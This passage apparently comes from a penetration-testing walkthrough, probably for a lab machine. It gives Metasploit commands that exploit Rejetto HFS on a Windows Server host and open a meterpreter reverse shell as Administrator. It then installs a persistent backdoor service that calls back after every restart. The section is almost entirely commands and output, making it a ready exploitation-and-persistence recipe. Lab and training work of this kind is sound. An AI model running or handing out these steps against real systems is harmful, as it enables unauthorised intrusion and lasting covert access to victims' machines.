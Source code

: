 ### Exploitation <a href="#exploitation-2" id="exploitation-2"></a>

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
meterpreter > sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows
    
meterpreter > getuid 
    Server username: WIN-OMCNBKR66MN\Administrator
```

### Persistence <a href="#persistence" id="persistence"></a>

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set SESSION 1
exploit
```

<figure><img src="../../../../../.gitbook/assets/image (27) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Successful maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.
